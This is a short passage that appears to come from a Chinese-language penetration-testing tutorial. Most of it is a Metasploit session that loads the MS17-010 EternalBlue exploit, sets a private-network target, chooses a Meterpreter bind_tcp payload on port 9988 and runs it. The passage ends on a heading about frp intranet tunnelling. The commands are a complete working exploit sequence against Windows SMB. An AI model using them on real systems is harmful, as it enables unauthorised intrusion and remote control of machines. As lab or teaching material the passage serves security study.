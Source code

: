 ```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![image-20211012215022855](assets/image-20211012215022855.png)





## 2.3 通过frp内网穿透来实现内网穿透
